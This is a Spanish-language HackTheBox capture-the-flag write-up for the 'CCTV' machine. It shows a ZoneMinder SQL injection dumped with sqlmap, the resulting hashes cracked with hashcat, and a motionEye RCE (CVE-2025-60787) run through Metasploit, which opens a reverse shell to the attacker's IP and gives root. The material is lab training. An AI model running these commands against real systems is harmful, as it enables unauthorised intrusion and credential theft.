





+++
title = "HackTheBox - CCTV"
draft = false
description = "Resolución de la máquina CCTV"
tags = ["HTB", "Linux", "Easy", "MotionEye", "SQLi", "ZoneMinder", "CVE"]
summary = "OS: Linux | Dificultad: Easy | Conceptos: Videovigilancia, MotionEye, SQLi, ZoneMinder, CVE Público"
categories = ["Writeups"]
showToc = true
date = "2026-03-09T00:00:00"
showRelated = true
+++

* Dificultad: `easy`
* Tiempo aprox. `~1.5h`
* **Datos Iniciales**: `10.129.3.35`

### Nmap Scan

Tras realizar un escaneo nmap completo, se encuentran los siguientes puertos abiertos:

```bash {hl_lines=[4,7]}
$ nmap -sT -Pn --disable-arp-ping -p22,80 -sVC --open cctv.htb

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
80/tcp open  http    Apache httpd 2.4.58
|_http-title: SecureVision CCTV & Security Solutions
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel
#Nada en UDP
```

Tenemos 2 puertos:

* `22/tcp (SSH)`: Nada relevante, versión no vulnerable.
* `80/tcp (HTTP)`: Única alternativa que podemos mirar. Al parecer un servicio de cámaras de vigilancia (`SecureVision CCTV`).

## HTTP

Al entrar, encontramos una página de un servicio SecureVision que se encarga, al parecer, de proporcionar "soluciones de seguridad" a sus clientes: CCTV, Control de acceso, consultas a profesionales, puertas de seguridad, keypads...

En la página solo encontramos los botones `Staff Login` y `Get a Quote`, pero el segundo nos lleva a mandar un email, así que pulsamos el primero a ver a dónde nos lleva.



Vemos que estamos en un panel de login de la aplicación `ZoneMinder`, si pulsamos del texto ZoneMinder arriba a la izquierda (naranja), se abre un desplegable con los botones `ZoneMinder`, `Documentation` y `Support`. Aunque los 3 botones nos lleven a páginas externas, desde ellas podemos saber qué es [ZoneMinder](https://github.com/ZoneMinder/zoneminder):

> _ZoneMinder is a free, open source Closed-circuit television software application developed for Linux which supports IP, USB and Analog cameras._

En Internet veo que es posible conseguir la versión con un solicitud a su API:

```bash
$ curl -s http://cctv.htb/zm/api/host/getVersion.json | jq
{
  "success": false,
  "data": {
    "name": "Not Authenticated",
    "message": "Not Authenticated",
    "url": "/zm/api/host/getVersion.json",
    "exception": {
      "class": "UnauthorizedException",
      "code": 401,
      "message": "Not Authenticated"
    }
  }
}
```

Pero, desgraciadamente, no tenemos permiso para verla. De todas formas, busco en Internet de nuevo y veo:

> _ZoneMinder's default credentials for the web interface are username `admin` and password `admin`. It is highly recommended to change these immediately upon setup via the Options > Users menu to secure the system._

Las pruebo y:&#x20;



Ahora sí solicito la versión:

```bash
# Tomando la cookie de sesión desde Firefox (podía haber solicitado a la API directamente desde ahí)
$ curl -s http://cctv.htb/zm/api/host/getVersion.json --cookie "ZMSESSID=h251pgm92tcs091oth3lu25e7r"| jq
{
  "version": "1.37.63",
  "apiversion": "2.0"
}
```

Así que tenemos delante a ZoneMinder 1.37.63, que, tras una búsqueda, cuenta con un CVE `9.9 CRITICAL`: [CVE-2024-51482](https://nvd.nist.gov/vuln/detail/CVE-2024-51482).

### Blind Boolean-Based SQLi

Se trata de una boolean based SQLi, es decir, que si lo hiciésemos manualmente nos costaría un rato (bastante largo) conseguir los hashes de la DB, así que usamos SQLMap (que también usan en [el propio report de la vulnerabilidad](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-qm8h-3xvf-m7j3) en GitHub):

```bash
$ sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=h251pgm92tcs091oth3lu25e7r"
```

Como vamos a tardar años en que una blind boolean-based nos devuelva toda la DB y aprovechando que ZoneMinder es vulnerable, lo que podemos hacer es mirar el nombre de la DB y de la tabla en que se guardan las credenciales y hacer que sólamente se dumpee eso. Tras mirar en Internet:

> _ZoneMinder saves user credentials (usernames and hashed passwords) in a MySQL/MariaDB database named `zm`. The table name is `Users` and the column names are `Username` and `Password`_

```bash
$ sqlmap -u 'http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1' --cookie="ZMSESSID=h251pgm92tcs091oth3lu25e7r" -D "zm" -T "Users" -C "Username,Password" --dump --batch

# Y dejamos que trabaje un rato.

+------------+--------------------------------------------------------------+
| Username   | Password                                                     |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark       | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin      | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
+------------+--------------------------------------------------------------+
```

### Crackeando los hashes

Los hashes son BCrypt (`$2y$`) con 1024 iteraciones (`$10$` = $$2^{10}$$), con salt de 22 caracteres y hash de 31.

Los metemos a hashcat:

```bash
$ hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt

$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.:opensesame
$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m:admin
```

Tenemos `admin:admin` y `mark:opensesame`

## Privesc - SSH

`admin:admin` son las credenciales por defecto que nos han permitido enumerar la versión, pero `mark`:`opensesame` son más "personales". Probamos a conectarnos por ssh:

```bash
$ ssh mark@cctv.htb
mark@cctv.htb's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-101-generic x86_64)

mark@cctv:~$
```

Ejecutamos LinPEAS, anotamos lo siguente:

* Muchas interfaces de red `vethb9136e0`, `veth54ff6b7`, `br-3e74116c4022`, etc.
  * Posiblemente sean containers de Docker, de hecho LinPeas ha detectado Docker, pero no que estuviésemos en un container, así que es posible que haya containers ejecutándose.
  * `br-...` es un puente para que los containers se comuniquen entre ellos.
  * `veth...` son interfaces para unir cada container al puente
* Puertos en local:

```bash
tcp   LISTEN 0      4096       127.0.0.1:7999
tcp   LISTEN 0      4096       127.0.0.1:1935
tcp   LISTEN 0      151        127.0.0.1:3306
tcp   LISTEN 0      4096       127.0.0.1:9081
tcp   LISTEN 0      128        127.0.0.1:8765
tcp   LISTEN 0      4096       127.0.0.1:8888       
tcp   LISTEN 0      4096       127.0.0.1:8554
tcp   LISTEN 0      70         127.0.0.1:33060
```

* Forwarding: `net.ipv4.ip_forward = 1`
  * IP forwarding, necesario para que los containers se comuniquen con el exterior.
* Files with capabilities:

```bash
Files with capabilities (limited to 50):
/snap/core22/2292/usr/bin/ping cap_net_raw=ep
/snap/snapd/25935/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin=p
/snap/core24/1349/usr/bin/ping cap_net_raw=ep
/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin=p
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/tcpdump cap_net_raw=eip
/usr/bin/ping cap_net_raw=ep
```

En las capabilities tenemos 3 cosas: snap (con `setuid`), que no nos sirve de mucho; ping, con permiso `cap_net_raw=ep` (que permite abrir sockets) y tcpdump, con `cap_net_raw=eip`.

`cat_net_raw` es una capability que permite abrir y crear sockets a medida desde cero, los flags son:

* `p`: Permitted, el binario tiene autorización para usar el cap, pero no necesariamente está activado por defecto.
* `e`: Effective, el cap está encendido y activo desde el instante en que se ejecuta el programa.
* `i`: Inheritable, si este programa crea un proceso hijo, el hijo hereda el cap.

### Identificando servicios de red

No tenemos nada que parezca un vector de escalada de privilegios directo, pero podemos usar `tcpdump` para ponernos en escucha y capturar info de las interfaces de red, que no son pocas. Primero tenemos que ver qué hace cada una.

Hacemos port forwarding a los puertos locales y los analizamos:

```bash
PORT      STATE SERVICE         VERSION
1935/tcp  open  rtmp?
3306/tcp  open  mysql           MySQL 8.0.45-0ubuntu0.24.04.1
7999/tcp  open  irdmi2?
| fingerprint-strings: 
|   FourOhFourRequest: server did not understand your request. # no es "FourOhFour"
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Motion 4.7.1 Running [1] Camera # Identificado -> Motion 4.7.1
|   RTSPRequest: HTTP/1.1 400 Bad Request # no es RTSP
|   SIPOptions: HTTP/1.1 400 Bad Request # no es SIP
8554/tcp  open  http            IDentifier NameTracer Pro httpd
|_http-title: Site doesn't have a title.
8765/tcp  open  ultraseek-http?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Server: motionEye/0.43.1b4 # Identificado -> motionEye/0.43.1b4
|     Content-Type: application/json
        ...[SNIP]...
|     <link rel="shortcut icon" href="static/img/motioneye-logo.svg">
|     <link rel="apple-touch-icon" href="static/
|   HTTPOptions: 
|     HTTP/1.1 405 Method Not Allowed
|     Server: motionEye/0.43.1b4
|     Content-Type: application/json
|     Date: Sun, 08 Mar 2026 22:40:49 GMT
|     Content-Length: 41
|_    {"error": "HTTP 405: Method Not Allowed"}
8888/tcp  open  http            Golang net/http server
|_http-cors: GET OPTIONS
|_http-title: Site doesn't have a title (text/plain).
|_http-trane-info: Problem with XML parsing of /evox/about
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 301 Moved Permanently
|     Access-Control-Allow-Credentials: true
|     Access-Control-Allow-Origin: *
|     Location: /nice ports,/Trinity.txt.bak/
|     Server: mediamtx # Identificado -> mediamtx
|     Date: Sun, 08 Mar 2026 22:40:48 GMT
|     Content-Length: 0
|   GenericLines, Help, LPDString, LSCP, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     Access-Control-Allow-Credentials: true
|     Access-Control-Allow-Origin: *
|     Content-Type: text/plain
|     Server: mediamtx
|     Date: Sun, 08 Mar 2026 22:40:48 GMT
|     Content-Length: 18
|_    page not found
|_http-server-header: mediamtx
9081/tcp  open  cisco-aqos?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Sun, 08 Mar 2026 22:40:54 GMT
|     Connection: close
|     Content-Type: multipart/x-mixed-replace; boundary=BoundaryString
|     --BoundaryString
|     Content-type: image/jpeg # Devuelve imagen, Posible cámara de seguridad?
|     Content-Length: 10543
|     JFIF # Tipo JFIF
|     Exif
|     0220
|     2026:03:08 22:40:54
|     2026:03:08 22:40:54
|     $3br
|     %&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
|_    &'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
33060/tcp open  mysqlx          MySQL X protocol listener
```

Si desde la máquina víctima hacemos curl a cada uno de los puertos (ignorando 3306,33060 que son de MySQL):

```bash
mark@cctv:~$ for i in $(netstat -tunlp | awk '{print $4}' | grep 127.0.0.1); do (echo "ESCANEANDO $i" && curl -s $i); done
ESCANEANDO 127.0.0.1:7999
Motion 4.7.1 Running [1] Camera 
1 
ESCANEANDO 127.0.0.1:1935 # No devuelve nada
ESCANEANDO 127.0.0.1:9081 # No devuelve nada
ESCANEANDO 127.0.0.1:8765 # Devuelve HTML
<!DOCTYPE html>
<html>
    <head>
            <meta charset="utf-8">
            <meta name="viewport" content="width=device-width, initial-scale=1">
...[SNIP]...
ESCANEANDO 127.0.0.1:8888 # Devuelve HTML
404 page not found
ESCANEANDO 127.0.0.1:8554 # Nada
```

Si accedemos a los puertos desde Firefox, podemos encontrar cosas interesantes:

*   Puerto 9081 (el que respondía con imagen):&#x20;


*   Puerto 8888 (MediaMTX):  Si conseguimos encontrar el endpoint correcto podríamos conseguir poder ver otra cámara tan interesante como la anterior.


*   Puerto 8765 (motionEye)&#x20;


De momento, y tras una búsqueda de los servicios en Internet, tenemos lo siguiente:

* `127.0.0.1:7999`: Motion 4.7.1 ([Github](https://github.com/Motion-Project/motion))
  * _Motion is a program that monitors the signal from video cameras and detects changes in the images._
* `127.0.0.1:1935`: MediaMTX (RTMP Publishing)
* `127.0.0.1:9081`: ? Pero devuelve imágenes, posible CCTV.
* `127.0.0.1:8765`: motionEye/0.43.1b4 ([Github](https://github.com/motioneye-project/motioneye))
  * _motionEye is a web frontend for the motion daemon, written in Python._
* `127.0.0.1:8888`: MediaMTX ([Github](https://github.com/bluenviron/mediamtx))
  * _MediaMTX is a ready-to-use and zero-dependency live media server and media proxy. It has been conceived as a “media router” that routes media streams from one end to the other._
* `127.0.0.1:8554`: MediaMTX (Conexiones RTSP)

Miramos si hay vulnerabilidades para alguna:

* Motion 4.7.1 no es vulnerable
* motionEye/0.43.1b4 es vulnerable a `CVE-2025-60787` y `CVE-2025-47782` (RCE en función `add_camera`)
  * Hay incluso módulos de Metasploit: `exploit/linux/http/motioneye_auth_rce_cve_2025_60787`
* De MediaMTX no tenemos versión así que no podemos saberlo

### CVE-2025-60787

Vamos a por motionEye:

```bash
$ msfconsole
msf > use exploit/linux/http/motioneye_auth_rce_cve_2025_60787
msf exploit(linux/http/motioneye_auth_rce_cve_2025_60787) > show options

Module options (exploit/linux/http/motioneye_auth_rce_cve_2025_60787):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password used to authenticate to MotionEye
   ...[SNIP]...
```

Necesitamos contraseña para ejecutarlo, así que buscamos credenciales por defecto, que resultan ser `admin`:"" (contraseña vacía), pero probamos y sale `Invalid credentials.`. Buscamos en otros archivos:

```bash
mark@cctv:~$ cd /etc/motioneye/
mark@cctv:/etc/motioneye$ ls
camera-1.conf  motion.conf  motioneye.conf
mark@cctv:/etc/motioneye$ cat motion.conf 
# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
# @lang en
# @enabled on
# @normal_password 


setup_mode off
webcontrol_port 7999
webcontrol_interface 1
webcontrol_localhost on
webcontrol_parms 2

camera camera-1.conf
```

Probamos con `user`:"", y:&#x20;



Ahora volvemos a Metasploit

```bash
# Configuramos todo...
msf exploit(linux/http/motioneye_auth_rce_cve_2025_60787) > run
[*] Started reverse TCP handler on 10.10.15.64:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.1b4, which is vulnerable
[*] Adding malicious camera...
[-] Exploit aborted due to failure: unexpected-reply: 127.0.0.1:8765 Server did not respond with the expected HTTP 200
[*] Exploit completed, but no session was created.
```

Posiblemente sea porque con cuenta de usuario no nos deja explotar la vulnerabilidad, aunque, de todas formas, si, como vemos en el archivo, `admin_password` y `admin_username` están comentados (`#`), debería dejarnos iniciar sesión con las credenciales por defecto `admin`:"" porque, de nuevo, las del archivo no deberían tener efecto, pero no nos deja. 

Todo esto es raro porque el hash `989c5a8ee87a0e9521ec81a79187d162109282f0` no parece poderse descifrar fácilmente (Si lo pasamos a Crackstation, dice que no puede descifrarlo). Además, si metemos el hash a hashid:

```bash
$ hashid 989c5a8ee87a0e9521ec81a79187d162109282f0
Analyzing '989c5a8ee87a0e9521ec81a79187d162109282f0'
[+] SHA-1 # Este es el caso
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160)
```

Y de entre todos estos, podemos filtrar a uno específico con una búsqueda:
> *MotionEye stores the web‑interface admin password using SHA‑1 hashing*

Pero ni siquiera con hashcat consigo descifrarlo, lo que no tiene mucho sentido porque no parece haber otra vía para escalar privilegios. 

Tras un rato (no despreciable), pruebo a usar el "hash" no como hash, sino como contraseña, es decir, pruebo a iniciar sesión con la combinación `admin`:`989c5a8ee87a0e9521ec81a79187d162109282f0`:



Y confirmamos que no era un hash, sino que se trataba de la contraseña en texto plano. Así que volvemos a Metasploit y ajustamos la configuración:
```bash
msf exploit(linux/http/motioneye_auth_rce_cve_2025_60787) > set username admin 
username => admin
msf exploit(linux/http/motioneye_auth_rce_cve_2025_60787) > set password 989c5a8ee87a0e9521ec81a79187d162109282f0
password => 989c5a8ee87a0e9521ec81a79187d162109282f0
```

Luego ejecutamos el exploit y...
```bash
msf exploit(linux/http/motioneye_auth_rce_cve_2025_60787) > run
[*] Started reverse TCP handler on 10.10.15.64:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.1b4, which is vulnerable
[*] Adding malicious camera...
[+] Camera successfully added
[*] Setting up exploit...
[+] Exploit setup complete
[*] Triggering exploit...
[+] Exploit triggered, waiting for session...
[*] Sending stage (3090404 bytes) to cctv.htb
[*] Meterpreter session 1 opened (10.10.15.64:4444 -> cctv.htb:57290) at 2026-03-09 15:27:18 -0400
[*] Removing camera
[+] Camera removed successfully

meterpreter > shell
Process 3118 created.
Channel 1 created.
whoami
root
```
Tenemos root.
